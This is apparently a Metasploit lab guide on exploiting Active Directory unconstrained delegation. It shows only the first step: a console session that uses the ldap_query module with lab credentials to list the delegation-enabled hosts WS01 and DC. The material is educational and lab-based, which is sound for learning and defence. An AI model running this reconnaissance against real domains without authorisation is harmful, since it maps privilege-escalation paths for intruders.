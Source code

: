 # Unconstrained Delegation Exploitation
## Lab setup
## Attack Workflow
### Target Identification
Use the `ENUM_UNCONSTRAINED_DELEGATION` action to enumerate targets:
```
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(gather/ldap_query) > set DOMAIN msflab.local
DOMAIN => msflab.local
msf6 auxiliary(gather/ldap_query) > set USERNAME aliddle
USERNAME => aliddle
msf6 auxiliary(gather/ldap_query) > set PASSWORD Password1!
PASSWORD => Password1!
msf6 auxiliary(gather/ldap_query) > set ACTION ENUM_UNCONSTRAINED_DELEGATION 
ACTION => ENUM_UNCONSTRAINED_DELEGATION
msf6 auxiliary(gather/ldap_query) > run
[*] Running module against 192.168.159.10

[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] 192.168.159.10:389 Discovered schema DN: DC=msflab,DC=local
CN=WS01 CN=Computers DC=msflab DC=local
=======================================

 Name            Attributes
 ----            ----------
 cn              WS01
 objectcategory  CN=Computer,CN=Schema,CN=Configuration,DC=msflab,DC=local
 samaccountname  WS01$

CN=DC OU=Domain Controllers DC=msflab DC=local
==============================================

 Name            Attributes
 ----            ----------
 cn              DC
 memberof        CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=msflab,DC=local || CN=Cert Publishers,CN=Users,DC=msflab,DC=local
 objectcategory  CN=Computer,CN=Schema,CN=Configuration,DC=msflab,DC=local
 samaccountname  DC$

[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_query) > 
```
